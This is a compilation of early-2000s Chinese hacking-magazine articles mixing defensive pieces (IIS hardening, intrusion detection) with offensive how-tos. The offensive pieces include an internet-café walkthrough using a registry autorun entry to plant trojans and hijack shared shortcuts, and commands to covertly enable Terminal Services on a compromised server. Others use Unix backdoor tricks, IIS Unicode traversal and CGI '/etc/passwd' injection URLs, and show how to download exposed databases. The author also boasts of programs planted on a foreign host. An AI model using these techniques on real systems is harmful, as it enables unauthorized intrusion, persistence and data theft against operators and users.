网吧按各工作站上是否有硬盘可分为有盘工作站网吧和无盘工作站网吧。在有盘Win98工作站上，管理员为了方便管理和网吧安全，与网民之间产生的安全权限之争早已是非常激烈了，网上存在着大量的针对有盘工作站各种限制进行破解的文章；而在无盘Win98工作站上，由于其服务器是由Win2000或WinNT组成，以及其工作的原因，使其能够很好地控制用户权限，这样就能够很方便地管理和维护网吧。而且网上针对无盘工作站安全隐患的文章是少之又少，也相对提高了其安全系数。再加上与有盘Win98工作站相比少了一个硬盘，减少了网吧组建成本，所以越来越多的人在开网吧时都选择了这种模式。

本人从网友中调查发现，对于无盘网吧的安全性问题，绝大部分人都持肯定态度。但是，无盘网吧到底是否真是人们想像中的那么安全呢？先让我们来看看一个无盘网吧（服务器为Win2000，工作站为Win98）的标准权限设置：

- 1.（a）将用于共享的各种软件存放在同一文件夹下并共享出来，把它的安全权限（包含下面的所有文件及子目录）设为一般用户（EVERYONE）为读取，超级用户组ADMINISTRATORS完全控制。
- 2.（b）如果要共享出来，一定不要进行任何共享权限设置。
- 3. 设置所有用户（EVERYONE）对工作站目录CLIENTS的权限为完全控制。可不设置，因为建立该目录时，默认的权限就是完全控制。
- 4. 设置所有用户（EVERYONE）对目录WINDOWS下文件WIN98SE.DAT具有读、执行、写的特殊权限。
- 5. 关于Authorware的设置：把WINDOWS下TEMP和A5W_DATA的权限设为EVERYONE完全控制。
- 6. 关于其它软件，如QQ、游戏等，要根据情况进行权限设定。一般把安装的软件目录设置为读取。某些需要写入数据的文件要加上写入权限。有些软件运行时要在软件目录下写入暂存文件，就把该目录权限设为完全控制，但一定不要包含其下的所有文件及子目录，保证其下的文件目录的权限仍是第一步设置的读取权限。

> 需要解释一下的是，第二步中的“如果要共享出来”是指那些成网络磁盘供各工作站使用的，不是单为分享给网民而设的共享目录。可否认为这些权限设置正确进行就无懈可击了呢？答案还是否定的，还得让下面的实际操作来说话。

首先，注意到我们对工作目录CLIENTS的权限为完全控制，而其上存放着各工作站的注册表信息，也就是说我们有改变注册表信息的权利。而一般的无盘网吧都会共享一两个网络磁盘出来，供上网人员存储临时文件，木马程序便有了栖身之处。

怎样让工作站启动时自动加载木马程序呢？这需要我们手动为其添加注册表信息。下面以让记事本程序在工作站启动时自动加载为例简单说明：

- 1. 将记事本程序下载并放在共享出来的网络磁盘里。
- 2. 用记事本编辑一个注册表文件，内容如下：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"NOTEPAD"="A:\\NOTEPAD.EXE"
```

保存为NOTEPAD.reg，须注意最后一个引号后有回车，NOTEPAD.EXE在A盘下。

- 3. 按住Shift键，右键单击刚才所建立的NOTEPAD.reg注册表文件，选择“打开方式”→“regedit”→“始终使用该程序打开这种类型文件”→“确定”，双击该注册表文件，成功导入注册表后，便为记事本程序添加了自启动信息，如图1所示。
- 4. 重新启动，检查记事本程序是否随着启动。

> 将记事本程序改成木马程序、硬盘克隆程序等都可以。不过木马程序存放得不够隐蔽，容易被网吧管理员发现并删除。而且由于无盘工作站不一定有固定的临时地址，所以远程控制类的木马程序也可能无效。此类所谓木马的效果还是受环境限制的，读者可多针对无盘工作站各种隐患进行研究。

与有盘网吧相比，无盘网吧的网络结构在带来方便的同时，也带来了更大的安全隐患。站在社会工程学的角度来看，面对网吧所需的各种形形色色的软件和各式各样的游戏，有多少人会对它们全部了如指掌？也就是说，很少有人会清楚到底哪些程序需要在哪些软件目录下写入暂存文件。这个问题致使在实际操作中对上述权限设置中的第一点不能很好地执行。

很多技术人员由于想偷懒，不想花时间去了解各种程序，或者是由于相关文章较少，根本没有注意到权限的重要性，最后都选择了放宽权限——将各种软件存放的文件夹默认设置为一般用户可完全控制，显然这是违背了权限设置的第一条。可能也是出于对安全因素的考虑，他们没有在网上邻居中将这些资源共享出来，只有他们在服务器上指定的那些程序或快捷方式才能拥有对这些共享资源的完全控制权限。无盘Win98工作站上的Windows资源管理器当然是无法正常访问并管理到这些共享资源的了，也就是说这些资源在工作站上的用户看来是透明的。

笔者在本地市中心的十余家无盘网吧走访后发现，100%的网吧都是这样设置的。

呵呵，乍一看上去，这些技术人员的确是独具匠心，做得很出色。说到这里，想必应该让我们的“头号功臣”上场了——常用工具中的WinZip，一款能够访问到网络磁盘的压缩工具！相信没人感到陌生吧，也相信没有哪个网吧没有它的身影。下面就来看我们是怎样用WinZip打开这些被隐藏了的共享资源的：

- 1. 首先启动WinZip，选用WinZip的向导模式（快捷键Shift+W可以进行向导模式和经典模式之间的转换），选择更新一个存在的Zip压缩文档，再选择搜索磁盘。盘符可通过查看WinZip快捷方式的“属性”获得。在这一步骤中便可以根据需求在状态栏中注意到你所需要的文件夹，当搜索到时可以按下“取消”暂停下来，以便记下这个文件夹的名字。建议先全部搜索一次。如图2所示。
- 2. 转换到经典模式，“新建”Zip文档，在对话框的“文件名”填写处使用绝对路径，将刚才记下的文件夹名字和盘符一起写上去，最后加上一个任意的Zip文档名，如：`G:\WZ\temp.zip`。确定后就可以选择工具栏上的“打开”按钮，在对话框中任一文件夹（没有可以新建一个）上点右键，选“资源管理器”→“向上”，就可以直接用资源管理器管理`G:\WZ`文件夹了（如不能点右键或存在其它问题，可参见针对本网吧有盘工作站各种限制进行破解的文章予以解决）。但是这只能管理到WZ目录和其下的子目录，无法在资源管理器中使用“向上”到达该分区的根目录。如图3所示。
- 3. 要对其它文件夹进行管理，有两种办法：一是可以通过资源管理器左边的文件夹目录快速切换，二是重复第二步，改变新建Zip文档的绝对路径。有些目录是不会在资源管理器左边的文件夹目录中出现的，如笔者所在网吧的IE浏览器程序在`G:\IE55`下，文件夹目录中就看不到它，这就只能使用第二种方法了。
- 4. 要对其它分区的文件夹进行管理，可在重复第一步时改变搜索磁盘的盘符。如果在某一快捷方式中看见了某分区，而在搜索磁盘时无法搜索到该分区下的任何文件，可先执行这个快捷方式，再切换到WinZip进行搜索（关键！）。

> 这种现象的存在，笔者认为是由于Win98毕竟只是一个安全级别较低的C/S级操作系统，失在于其工作模式。在工作站中的程序可以互相沿用对方的权限通道。好像某A市只是为了让B市的汽车过来修了条路，而由于B市的管理不好，造成B市的摩托车也沿着这条道过来了。

OK，讲了这么多之后，大家是否发现了技术人员留下的安全隐患？对！我们对这些共享资源具有完全控制的权利，而这些资源是整个无盘网吧的机子所共用的。暂且不说我们怎样利用木马，使全网吧的机子成为受害者，包括被那些不安分的网吧老板用来上网玩的主机；即使我们只是加一些DLL文件，也够网吧管理员受的了。笔者还顺藤摸瓜找到了存放无盘工作站桌面快捷方式文件的Desktop文件夹，如果直接修改这些快捷方式的指向，对上网的用户而言，这将造成多大的损失！

综上所述，无盘网吧并不是绝对安全的，它的安全和其组建及维护的技术人员有相当大的联系。如果这些技术人员不是偷懒，我们就不会有太大的机会获得对这些重要资源的读写权。虽然他们想尽办法隐藏掉这些共享出来的资源，但是他们毕竟还是没有意识到一个最重要问题的存在：权限才是最重要的！所以这些问题的最根本解决方法还是要靠大家在主机上对所共享出来的资源进行严格的权限把关，一定不能偷懒哦！

> 希望无盘网吧的技术人员能够对此引起足够的重视。同时，由于本文造成的任何损失，笔者概不负责，大家请自重！

## 如何给“千兆服务器”装终端服务

coolweis

在目前Windows 2000的远程溢出不断被发现的今天，入侵Win2000已经不是什么太困难的事情了，但是如何更好地利用和控制呢？介绍一个好方法：终端服务。但是很多机器没有安装终端服务，那么我就给它装上一个。其实这是一个很简单的事情，你需要做的仅仅是打三行命令而已。这里有一个前提，就是你已经通过其他手段获得了该机器的管理员或者系统权限，那么接下来我们要做的就是给它开个终端服务！

先讲一下思路：思路很简单，就是找Windows 2000有无人职守安装的工具sysocmgr.exe。下面看看MSDN里面关于这个工具的介绍：

> How to Add or Remove Windows 2000 Components with Sysocmgr.exe

The information in this article applies to:
- Microsoft Windows 2000 Advanced Server
- Microsoft Windows 2000 Datacenter Server
- Microsoft Windows 2000 Professional
- Microsoft Windows 2000 Server

SUMMARY  
This article describes how to add or remove Windows 2000 components with the Sysocmgr.exe tool.

MORE INFORMATION  
You can use the Sysocmgr.exe tool at a command prompt to add or remove Windows 2000 components. You can use the following command-line switches with Sysocmgr.exe:
- /i:path to Sysoc.inf file, where path to Sysoc.inf file is the full path to the Sysoc.inf file; for example: `c:\windows\inf\sysoc.inf`
- /u:path to answer file, where path to answer file is the full path to the answer file that contains a list of items to add or remove.
- /q — runs Sysocmgr.exe in quiet mode (without display pages)
- /r — suppresses reboot (if needed)

NOTE: This procedure does not work and is unsupported with Microsoft Fax Service, COM+, and Distributed Transaction Coordinator. These are core components that are not removable.

The answer file can be any Windows 2000 answer file and only parses the [Components] and [NetOptionalComponents] sections. An example file is shown below:

```ini
[Components]
Netoc = on
Reminst = on
Paint = off
pinball = off
Solitaire = off

[NetOptionalComponents]
lpdsvc = 1
SimpTcp = 1
wins = 1
```

To start the installation or uninstallation of these components using Sysocmgr.exe, type the following command (file saved as c:\ocm.txt):

```cmd
sysocmgr /i:%windir%\inf\sysoc.inf /u:c:\ocm.txt
```

For more information, please refer to the unattended documentation.

看懂了吧？更多内容请参看无人职守文档。

我的思路就是利用这个工具进行无人职守安装，在安装过程中不需要交互，不显示窗口，安装完毕后不重新启动计算机（最好不要提醒重新启动人家的机器，如果需要可以不选这一选项），终端服务安装完毕必须重新启动后才有效，可以根据情况处理。

```cmd
c:\>echo [Components] > c:\aa
c:\>echo TSEnable = on >>c:\aa
c:\>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\aa /q /r
```

等停一段时间，sysocmgr运行完毕后就把这个终端服务装好了。但是现在还不能启动这个服务。如果不怕重新启动，完全可以去掉/r参数，重启后该服务会自动启动。还可以通过更改注册表来改变终端服务监听的端口。至于如何更改，就不是本文所涉及的了，网上有很多命令行下修改注册表的工具。

## Unix系统中最常见的安全问题

### 一、系统提供的服务所暴露的信息泄露问题

一个Unix服务器通常会提供许多服务，如ftp、telnet、smtp、http、ssh、pop3等等。这些服务会将系统的ftp服务器信息、操作系统信息、系统中当前登录的用户列表信息、smtp服务器信息、http服务器信息轻易地泄露出去。

```text
连到对方 Telnet：211.72.68.x.x 23

Red Hat Linux release 7.1 (seawolf)
kernel 2.4.2-2 on an i686
login:
```

```text
telnet 211.72.68.x.x 25
220 decypher.cla.net ESMTP Sendmail 8.9.3/8.9.3 Tue, 29 Jan 2002 01:32:35 -0500 (EST)
```

```text
telnet 211.72.68.x.x 110
+OK POP3 MVSU www2 POP3 Server (IMail 20??)
1012287984@www2>
```

```text
telnet 211.72.68.x.x 22
SSH-2.0-2.0.13 (non-commercial)
```

这些信息对于黑客来说是很有价值的。

### 二、rhosts及hosts.equiv文件的安全问题

在rhosts及hosts.equiv文件中，我们可以用“+”来取代主机名和用户名，这样我们就可以在任何地方用rlogin或rsh来访问这台主机而无需口令，这也是黑客常用的一种后门制作方法。

### 三、passwd文件的安全问题

### 四、命令解释器（shell）的安全问题

在 Unix 的 /bin 目录下的 bash、ksh、csh 等就是 Unix 的命令解释器（shell），当我们登录进系统后，便会启动一个默认的命令解释器（shell）来执行我们输入的命令，这有点儿类似 DOS 系统中的 command.com 或 WINNT/2000 系统中的 cmd.exe。

假如这些命令解释器的权限被设置成“777”，也就是“rwxrwxrwx”，或“755”，也就是“rwxr-xr-x”的话，那么任何一个登录进来的普通用户通过执行该文件都可以拥有 root 权限。因此这也是黑客常用的一个后门制作方法。

### 五、Unix 的远程溢出问题

远程溢出攻击是黑客常用的一种攻击，是最有效的入侵手法。你知道吗？RedHat 4.0、5.1、6.0 有 Amd 远程溢出漏洞，RedHat 6.0、6.1、6.2 有 rpc.statd 远程溢出漏洞，RedHat 6.2 有 Bind 远程溢出漏洞，RedHat 7.0 有 LPD 远程溢出漏洞，Solaris 2.3、2.4、2.5、2.5.1、2.6 有 rpc.ttdbserverd 远程溢出漏洞，Solaris 2.5、2.5.1、2.6、7 有 rpc.cmsd 远程溢出漏洞，Solaris 7、8 有 snmpXdmid 远程溢出漏洞……以上几点只不过是 Unix 许多安全问题中常见的一些，如何让 Unix 更加安全呢？我想防范于未然才是最重要的，不要等系统出了问题才去想办法解决。

```text
bin:*:11907:0:99999:7:
daemon:*:11907:0:99999:7:
adm:*:11907:0:99999:7:
sync:*:11907:0:99999:7:

[root@localhost etc]# cat passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
```

在“root:x:0:0:root:/root:/bin/bash”中，两个“0”分别表示 root 用户的组 ID 及用户 ID 为 0；两个“root”分别表示 root 用户登录进系统后的工作目录为 /root，及该目录的属主为 root；“/bin/bash”表示 root 用户登录进系统后启用的命令解释器为 bash。

> 如果我们在 passwd 文件中，发现除 root 外还有别的用户的组 ID 及用户 ID 为 0，登录进系统后执行命令解释器，那么就要小心了，这有可能是黑客入侵后留下的后门帐号。

鬼手

如果你的电脑新安装了 NT4/Win2000 系统，是不是就可以直接用来作 Internet 服务器呢？尽管微软的补丁打了一大堆，但还是有些漏洞。现在我就简单地谈一下如何使用 IIS 建立一个高安全性能的服务器。

## 一、以 Windows NT 的安全机制为基础

- 1. NT 打 SP6 补丁，2K 打 SP2、SP3 补丁。把磁盘的文件系统转换成 NTFS（安装系统的分区可以在安装系统的时候转换，也可以安装完系统以后用工具转换），同时把使用权限里有关 Everyone 的写、修改的权限去掉，关键目录如 Winnt\Repair 连读的权限也去掉。
- 2. 其它权限的修改。在 NT 下到开始菜单→程序→管理工具→系统策略编辑器，然后打开系统策略里文件菜单里的“打开注册表”，修改其中的 Windows NT 网络，把其中勾去掉。2K 下可以写个 `net share c$ /delete` 的 bat 文件，放到机器的启动任务里。
- 3. 为系统管理员帐号更名，同时把系统管理员的密码改成强加密，密码长度在 10 位以上，并且密码要包括数字、字母、符号等各种字符。
- 4. 禁止 TCP/IP 上的 NetBIOS。通过网络属性的绑定选项，禁止 NetBIOS 与 TCP/IP 之间的绑定。
- 5. 安装其它服务。应该保证不在同台服务器上安装数据库的其它服务，如果装了的话，最主要一点是数据库密码不能跟系统的登录密码一样。

## 二、设置 IIS 的安全机制

- 1. 解决 IIS4 以及之前的版本受到 D.O.S 攻击会停止服务。运行 Regedt32.exe，在注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3svc\parameters` 中增加一个值：Value Name: MaxClientRequestBuffer，Data Type: REG_DWORD，设置为十进制，具体数值设置为你想设定 IIS 允许接受的 URL 最大长度。CNNS 的建议为 256。
- 2. 删除 HTR 脚本映射。
- 3. 将 IIS Web Server 下的 /_vti_bin 目录设置成禁止远程访问。
- 4. 在 IIS 管理控制台中，点击 WEB 站点→属性，选择主目录，配置（起始点），应用程序映射，将 HTW 与 webhits.dll 的映射删除。
- 5. 如果安装的系统是 2K 的话，安装 Q256888_W2K_SP1_x86_en.EXE。
- 6. 删除 `C:\Program Files\Common Files\System\Msadc\msadcs.dll`。
- 7. 如果不需要使用 Index Server，禁止或卸载该服务。如果你使用 Index Server，请将包含敏感信息的目录的“Index this resource”的选项禁止。
- 8. 解决 Unicode 漏洞：2K 安装 2kunicode.exe，NT 安装 ntunicode86.exe。

经过以上的设置之后，我还是不敢说它就完全安全了，你可不要因此睡大觉呀！不过你可以放松一下了！微软的产品虽然好用，但是它的漏洞和同类比起来是漏洞最多的一个。作为一个网管，要时刻注意新漏洞的出现，及时地采取相应的措施，做到有备无患。

## 采用移动代理技术在入侵检测中的作用

Phoenix

现在入侵的方法已经变得多样化和复杂化，范围也从针对特定主机的攻击上升为针对网络的全面攻击。分布式拒绝服务攻击 DDoS 就是以分散在互联网上的大量主机系统协同攻击目标主机。因此，仅仅依靠静态特征数据库中保存的特征串在主机一级进行入侵检测，已不能得到满意的结果。我们采用移动代理的分布式系统就是一种较好地解决办法。本文将介绍采用移动代理分布式系统在入侵检测中的作用。

## 一、移动代理定义

Purdue 大学 COAST 小组的 Autonomous Agent for Intrusion Detection，他们首先将代理这一概念应用到入侵检测中。

移动代理是一种比较特殊的代理。在一般情况下，它需要运行在特定的虚拟主机环境中。移动代理与普通程序的最大不同就是它可以在运行期间在虚拟机之间迁移，而无需中止程序的执行。移动代理系统具有跨平台的特性，其工作平台可以混合使用不同厂家的系统，如 MS、RedHat、Sun 等，在各个操作系统中通过运行移动代理的虚拟机，可以将硬件和操作系统的平台细节屏蔽，使代理获得一个统一的界面。在这个基础上，代理可以在各个平台之间自由移动。

## 二、移动代理技术的特点

- 1、减少网络带宽和时延。当移动代理迁移到它计算所需资源的主机上运行时，它能方便地存取它所需资源，避免了中间数据在网络上传输，减少了网络带宽和时延。同时，让移动代理迁移到用户所在位置，能提高用户与系统交互的速度。并且在上述情况下，如果网络出现中断或者带宽很低，都不会影响用户的使用，因为移动代理是在远端运行，在任务未完成前，是不需要与其主人交互的。这在移动网络中，其优点尤其突出，因为移动网络的带宽、服务质量均不是很好，并且延时比较大。
- 2、移动代理能够使传统的客户／服务器计算模式下的计算任务更动态均匀地分布。因为它能根据环境、负载的变化动态迁移移动代理，以达到一个理想的计算效果。
- 3、在分布环境下，移动代理系统能实现较好的并行性。因为移动代理能自由地在主机间迁移，并能派生许多子移动代理来共同完成任务，并且父移动代理将结果整理后最终返回给主人。
- 4、基于移动代理的分布式系统具有更好的可理解性。因为代理是一种更高层次的抽象（相对于 RPC、Remote Procedure Call，RMI、Remote Method Invocation，CORBA、DCOM 等而言），更加接近于人的思维习惯，更能描述客观世界。

## 三、移动代理的应用中的实例

我们开发一套移动代理系统，首先我们需要移动代理的编程语言，它一般是解释型的。同时要使移动代理在分布、异构的主机间迁移并执行，在各主机上需要有一个移动代理的运行与管理工具来提供支持，这就是移动代理的运行环境。由于 Java 语言的平台无关性，Java 已成为移动代理开发的事实语言。利用 Java 来编写移动代理，可以缩短开发周期和开发工作量。因为移动代理的运行环境完全可以使用 Java 虚拟机（JVM）来完成。与数据库打交道是移动代理一个重要的方面，在 Java 中利用 JDBC 可以较好地解决移动代理系统与数据库的集成，Legacy 系统的集成也能够易于实现。

Java 1.1 提供了执行 SQL 语句的 JDBC API 函数。JDBC API 函数使 Java 程序以纯 Java 的方式访问与 ODBC 兼容的数据库。JDBC 包中提供了两个有用的应用程序：

> JDBC 管理器与 JDBC-ODBC 桥。JDBC 管理器的作用是使数据库和 Java 应用程序与正确的数据库驱动程序连接，以及进行驱动程序的管理。JDBC-ODBC 桥允许 Java 应用程序访问老的数据库，这是还没有纯 Java 的 JDBC 驱动器的数据库的有效工具。这一工具为移动代理在传统系统中的应用提供了必要的支持。

由于移动代理必须保证能够跨平台使用，所以一般来说每一种实现都需要基于某一种特定的平台无关语言。目前国际上比较流行的语言有很多，包括 Java、C 以及 Python 等。在每个库房之上，都有一些移动代理的实现。其中，Java 语言的平台无关性在各个平台上实现得最好，而且其公共接口 CORBA 也得到了广泛的承认和支持。另外，在 Java 语言中已经直接集成了对对象串行化的功能和 RMI 接口，为移动代理的实现提供了强大的支持。目前的移动代理中，有相当大的一部分是基于 Java 语言实现的。

## 四、采用移动代理的分布式系统在网络入侵检测系统中的模型

我们知道，移动代理适合作大规模信息搜集和动态处理，特别是在入侵检测系统的信息采集和处理中采用移动代理，既能充分发挥移动代理的特长，又能大大提高入侵检测系统的性能和整体功能。目前国内外利用移动代理进行入侵检测方面的研究还不多。我们现在设想以下几种系统：

- 1、数据采集子系统，该子系统主要是负责从受监控的主机上采集有关主机的网络连接数据。
- 2、数据管理子系统，该子系统的主要功能是保存和维护所有采集得到的数据，处理用户提交的数据库查询和更新请求。
- 3、实时监控子系统，该子系统可以对各个受控主机进行实时监控，并对出现的问题及时报警。由于报警的实时性对系统资源要求很高，所以本模型中实时监控的算法设计一定要高效简明。
- 4、离线分析子系统，该子系统主要通过 WWW 实现对各种历史数据和警报的查询和分析。由于此时数据已经保存在数据库中，所以可以利用各种复杂的算法对系统数据进行分析。在这里可做一些针对警报和日志的历史数据的查询和统计分析。移动代理还可进一步应用到监控机上。在模型中可增设安全总控机，并通过移动代理对各监控机进行管理，这样可进一步提高入侵检测系统的性能。

## 五、移动代理技术有待解决的问题

### 1、安全性问题

> 针对移动代理的安全性问题还有许多方面需要研究。诸如移动代理的无故终止、不受欢迎的代理接受策略、移动代理黑客可能的恶意破坏，以及不协作的或者有缺陷的其它代理的攻击。

这两方面的问题在一定程度上具有矛盾性，即对其中某个方面问题的解决会增加对另一方面问题解决的困难。其中，第二个问题尤其具有挑战性。移动代理的安全性问题正引起广泛的研究，只有解决了该问题，其才会有更大的价值和更广泛的应用。

### 2、效率问题

由于移动代理在主机上为解释执行，而解释执行的系统一般效率比较低，如目前大多数移动代理系统是基于 Java 语言实现的，基于 Java 语言便于建立一个异构的系统，但由于 Java 语言效率低，这势必会影响系统的性能。幸运的是，在软件错误隔离、即时（Just-in-time）编译与其它技术上已取得了很大的进展，这将会使移动代码的执行速度变得差不多像完全编译型代码一样快，从而可以解决效率问题。

## 六、结论

移动代理技术应用到分布式网络入侵检测系统中，有以下优点：

- 能实现全局范围内的入侵检测功能，具有清晰的系统结构和良好的可扩展性；
- 具有优良的灵活性能；
- 对网络系统和主机资源的影响程度低，减少了出现系统崩溃的可能。

移动代理还有待进一步研究，如移动代理本身的问题；如何建立一个优化的基于移动代理的企业模型和应用框架等等。

如何判别目标主机使用的是什么操作系统呢？有些朋友使用的是 ping 命令；有的是根据端口及对方开放的服务进行判断。当我们使用端口扫描器及漏洞扫描工具对目标主机进行扫描的时候，会得到对方开放的端口，通常有：21、22、23、25、79、80、110、111、135、139、443、513、514、1433、3389、5631、6000。

在这些端口中，21（FTP）、23（telnet）、25（smtp）、79（finger）、80（http）、110（pop3）是无法直接判断的，因为它们既可能在 NT/2000 中存在，也可能在 Unix/Linux 中存在。

135、139、443 这三个端口是 NT/2000 系统开放的；而开放 3389 端口的是 Win2000；开放 1433 端口（SQL 服务）通常也是 NT/2000；5631 端口通常只在采用 pcAnywhere 管理的 NT 系统中开放。

111（sunrpc）、513（rlogin）、514（rsh）这三个端口通常在 Unix/Linux 系统中开放，而 6000 端口通常是 X Windows，当然也是 Unix/Linux 系统。

22（SSH）端口，在写本文之前我一直认为这个端口只在 Unix/Linux 系统中开放，可后来我扫描 66.227.0.212 时，却发现对方同时开了 22 及 443 端口，所以只好将这个端口排除在外。

接下来看一下如何利用 21（FTP）、23（telnet）端口进行判断：

```text
ftp 127.0.0.1    //这是我自己的 WIN2000+IIS5.0
Connected to 127.0.0.1
220 Sagi Microsoft FTP Service <Version 5.0>
User (127.0.0.1:(none)):
微软的 FTP 服务器，版本 5.0，当然是 WIN2000。
```

```text
ftp 210.xxx.xxx.36    //这是台湾的一台主机
Connected to 210.59.231.36
220 sorich! Microsoft FTP Service (Version 4.0)
User (210.xxx.xxx.36:(none)):
微软的 FTP 服务，版本 4.0，自然是 WinNT。如果是 wu-ftpd 的话，那么对方使用的有可能是 Unix/Linux。
```

```text
telnet 211.xxx.xxx.2
Red Hat Linux release 7.1 (Seawolf)
Kernel 2.4.2-2 on an i686
对方使用的是红帽 Linux 7.1。
```

```text
telnet 61.xxx.xxx.155
FreeBSD/i386 (*.*.*.*)(ttyp3)
这是日本的一台主机，使用的是 FreeBSD，Unix 的一个版本。
```

```text
telnet 161.58.xxx.xxx
SunOS *.net 5.6 Generic Sun4u sparc SUNW, UltraSPARC-III-Engine
这是美国加利福尼亚州的一台主机，使用的是 SunOS 5.6，也是 Unix 的一个版本。不过他们的 telnet 服务去年底的时候已经关闭了（系统上至今还有我放在上面的一些混进去的程序呢，而且还是用 gcc 编译好的）。
```

除了以上提到的一些方法外，利用扫描到的 CGI 及 IIS 漏洞也可以判断对方使用的系统，比如“/scripts/..%c1%1c../winnt/system32/cmd.exe”这种典型的 Unicode 漏洞，一定是 NT/2000；“/cgi-bin/whos_raw.cgi?fqdn=%0acat%20/etc/passwd”这样的，一定是 Unix/Linux 系统。

## 数据库侵与防战

在众多黑客入侵案件中，数据库入侵一直都是入侵者比较关心和热衷的问题。因为在数据库中记录了用户的重要身份信息，如用户帐号、密码、邮箱甚至信用卡密码。所以保护好数据库不受入侵，是网络管理员一项重要的责任。

入侵者是如何对数据库进行入侵的呢？一般说来，入侵者进入一个系统，都是通过系统本身的一些漏洞或者缺陷，另外就是利用系统管理员的疏忽入侵系统的。下面我举几个例子来说明一下：

## 一、利用系统本身的漏洞和缺陷入侵

作为软件本身，总是或多或少存在一些漏洞和不足之处，以及一些程序员没有能够考虑到的地方。而系统本身是一个庞大的软件体，存在着漏洞缺陷就不足为奇了。常常就是这些设计上的缺陷隐患被入侵者利用而达到一些意想不到的目的。下面我举个例子：

相信许多人已经知道了 IIS 上 Null.htw 这个漏洞。如果网站上存在这个漏洞，利用它可以通过浏览器直接查看 asp 的源代码，而不是显示出 asp 的执行结果。你只要在浏览器里输入 `http://someurl/null.htw?CiWebHitsFile=/default.asp%20&CiRestriction=none&CiHiliteType=Full` 等格式的语句，就可以得到 default.asp 网页的源代码。利用这一方法首先在 asp 上查到关联的数据位置和文件名，然后在浏览器里输入 `http://网站名/数据相对位置` 就可以下载数据库了。

## 二、利用管理员的疏忽

微软的 Microsoft SQL Server 是目前一些中小型网站采用得比较多的数据库。它在安装的时候有一个默认的数据库管理员帐号，即用户名为 sa，密码为空。许多系统管理员在安装时按照默认安装，安装完成以后，可能就把它放在一边不去修改它的用户名和密码。而 Microsoft SQL Server 是一套基于网络的数据库，只要你拥有数据库管理员的帐号和密码，就可以任意检索、修改、建立、删除数据库，甚至可以用它来运行 DOS 命令。

于是根据这一原理和系统管理员的疏忽，就设计出针对这一问题的软件，用户便可以进行数据库或网站的入侵。如图 1 所示：天行写的利用 Microsoft SQL Server 可以执行远程主机命令的软件。

利用管理员疏忽导致数据库被入侵的例子还很多。我再举一个例子：现在许多中小型网站用的社区、聊天室等程序，大部分是在网上公布可以免费下载的程序，无形中这就增加了它们的危险性。许多没经验的网管甚至把程序安装以后就万事大吉，这对入侵者入侵数据库就轻而易举了。

入侵者只要分析所有程序的源代码，找出数据库的默认安装路径，就可以下载数据库。比如某下载的聊天室数据库文件存放在 data 目录下，数据库名为 chat.mdb，那么入侵者在网络一端输入 `http://网站地址/聊天室首页路径/data/chat.mdb` 就可以把数据库下载，如图 2 所示：输入 IP 地址和数据库名下载数据库。（本图为朋友网吧主机，仅作试验）。

防止这类事情的发生，就是在使用这类公用程序的时候，一定要对数据库改名和换路径，必要时对源程序进行修改。

## 三、保护数据库

数据库被入侵后可能会引起一系列问题。比如入侵者可以用权限高的用户对网站进行破坏，甚至可以通过得到的用户名、密码进行更深一步的试探。比如用得到的密码去读程序中的信箱或者 QQ 等各种密码，这也是一个更复杂的问题，在这里不再细谈。

如何保护好网站数据不被入侵也是一个比较大的话题。通常管理员需要把系统不断升级和打补丁，接收网络安全专家的建议，设置防火墙，对公用程序进行改写，把数据库密码部分进行加密，都是有效的措施。当入侵者发现身边的所有数据都是以加密形式出现的时候，可能就会感到寸步难行，这也是以后网络安全的一个发展方向。

## WEB 欺骗技术专题

## 一、简介

Web 欺骗是创造整个 Web 虚假的拷贝，并通过某种技术直接或者间接地获取用户信息、帐户和密码的手段。攻击者通常可以在受害体和服务器之间再架设一个中间的服务器中转，并以此来截取和探测受害体密码，甚至直接控制浏览受害体的 Web 操作。这种攻击危及 Web 用户的安全和数据的完整。随着电子商务的潮流，这种攻击将会带来巨大的危害，管理员有必要熟悉攻击手段，以此做好必要的安全防范。

## 二、Web 欺骗攻击的因素

### 1、受害体

在 Web 欺骗中，我们把攻击者要欺骗的对象称为受害体。在攻击过程中，受害体被欺骗是攻击者的第一步。攻击者想方设法欺骗受害体进行错误的决策，而决策的正确与否决定了安全性与否。比如：当一个用户在 Internet 下载一个软件，系统的安全性提示你，该网页有不安全控件，是否要运行，这就关系到了用户选择是否运行的问题，而在不安全的范围里，网页有可能加载了病毒、木马等。这是受害体决策的问题，在一个小小的例子中我们不难看到，受害体在决定是否下载或者运行的时候，或许已经被欺骗了。一种盗窃 QQ 密码的软件，当被攻击者安装在机器上的时候，它具有和腾讯公司一样的图标，但是其程序却指向了在后台运行的盗窃软件。那么受害体往往很轻易地运行该软件，这样的决策就带来了不安全性。

### 2、掩盖体

在 Web 欺骗中，我们把攻击者用来制造假象、进行欺骗攻击中防范的道具称为掩盖体。这些道具可以是：虚假的页面、虚假的链接、虚假的图表、虚假的表单等。攻击者竭尽全力地试图制造令受害体完全信服的信息，并引导受害体做一些不安全性的操作。当我们浏览网页时，网页的字体、图片、色彩、声音，都会给受害体传达着暗示信息。甚至一些公司的图形标志也给受害体造成了定势。你再看到“小狐狸”的图标的时候，不由得就想到了 www.sohu.com 站点。富有经验的浏览器用户对某些信息的反应，就如同富有经验的驾驶员对交通信号和标志做出的反应一样。这种虚假的表象对用户来说，如同虚假的军事情报一样具有危害。

攻击者很容易制造虚假的搜索，受害体往往通过强大的搜索引擎来寻找所需要的信息，但是这些搜索引擎并没有检查网页的真实性，明明表明着是：xxx 站点的标志，但是连接着 yyy 站点，而且 yyy 站点有着和 xxx 站点网页一样虚假的拷贝。

### 3、欺骗的目的

攻击者欺骗的目的可能有很多，但是直接的目的是拿到用户的账户和信息，甚至一些银行账户和密码。例如，在访问网上银行时，你可能根据你所见的银行 Web 页面，从该行的账户中提取或者存入一定数额的存款。因为你相信你所访问的 Web 页面就是你所需要的银行的 Web 页面。

### 4、欺骗的结果

由于攻击者可以观察或者修改任何从受攻击者到 Web 服务器的信息；同样地，也控制着从 Web 服务器至受攻击者的返回数据，这样攻击者就有许多发起攻击的可能性，包括监视和破坏。

